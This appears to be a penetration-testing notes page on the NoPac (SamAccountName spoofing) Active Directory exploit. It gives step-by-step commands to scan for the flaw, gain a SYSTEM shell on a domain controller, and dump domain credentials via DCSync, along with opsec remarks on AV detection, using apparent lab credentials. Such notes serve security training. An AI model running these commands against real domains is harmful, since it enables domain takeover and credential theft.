

repository: amandaguglieri/hackinglife · page: nopac-sam-account-spoofing/index.html · generator: mkdocs

---
title: NoPac (SamAccountName Spoofing)
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - windows
  - privilege
---
# 🪤 NoPac (SamAccountName Spoofing)

!!! tips "Detailed explanations"
	- [noPac: A Tale of Two Vulnerabilities That Could End in Ransomware](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware).
	- [SAM Name impersonation](https://techcommunity.microsoft.com/users/daniel%20naim/164126).

This vulnerability encompasses two CVEs [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287), allowing for intra-domain privilege escalation from any standard domain user to Domain Admin level access in one single command.

| 42278                                                                      | 42287                                                                                         |
| -------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| `42278` is a bypass vulnerability with the Security Account Manager (SAM). | `42287` is a vulnerability within the Kerberos Privilege Attribute Certificate (PAC) in ADDS. |

```bash
# Ensuring Impacket is Installed
git clone https://github.com/SecureAuthCorp/impacket.git

python setup.py install 

# Cloning the NoPac Exploit Repo
git clone https://github.com/Ridter/noPac.git
```

Once Impacket is installed and we ensure the repo is cloned to our attack box, we can use the scripts in the NoPac directory to check if the system is vulnerable using a scanner (scanner.py) then use the exploit (noPac.py) to gain a shell as NT AUTHORITY/SYSTEM. 


```bash
# First we will scan:
sudo python3 scanner.py $domain/$userSamAccounName:$password -dc-ip $domainControllerIP -use-ldap
# Example:
# sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```

We will obtain the `ms-DS-MachineAccountQuota` number. If it is set to 0, the attack will not work.

```bash
# Running NoPac & Getting a semi-interactive shell session  using smbexec.py -https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py. This could be "noisy" or may be blocked by AV or EDR.
sudo python3 noPac.py $domain/$user:$password -dc-ip $domainControllerIP -dc-host $hostname -shell --impersonate $userAdmin -use-ldap
# Example: 
# sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```

Important: It is important to note that NoPac.py does save the TGT in the directory on the attack host where the exploit was run (We can use `ls` to confirm).

```bash
# We could then use the cache file to perform a pass-the-ticket and perform further attacks such as DCSync.  Using noPac to DCSync the Built-in Administrator Account
sudo python3 noPac.py $domain/$user:$password -dc-ip $domainControllerIP -dc-host $hostname --impersonate $userAdmin -use-ldap -dump -just-dc-user $domain/$userAdmin
# Example:
# sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator

# We can also dump all
sudo python3 noPac.py $domain/$user:$password -dc-ip $domainControllerIP -dc-host $hostname --impersonate $userAdmin -use-ldap -dump -just-dc
# Example:
# sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc
```

### Mitigations

**If opsec or being "quiet" is a consideration during an assessment, we would most likely want to avoid a tool like smbexec.py.**

If Windows Defender (or another AV or EDR product) is enabled on a target, our shell session may be established, but issuing any commands will likely fail. 

The first thing smbexec.py does is create a service called `BTOBTO`. Another service called `BTOBO` is created, and any command we type is sent to the target over SMB inside a .bat file called `execute.bat`. With each new command we type, a new batch script is created and echoed to a temporary file that executes said script and deletes it from the system. Let's look at a Windows Defender log to see what behavior was considered malicious.
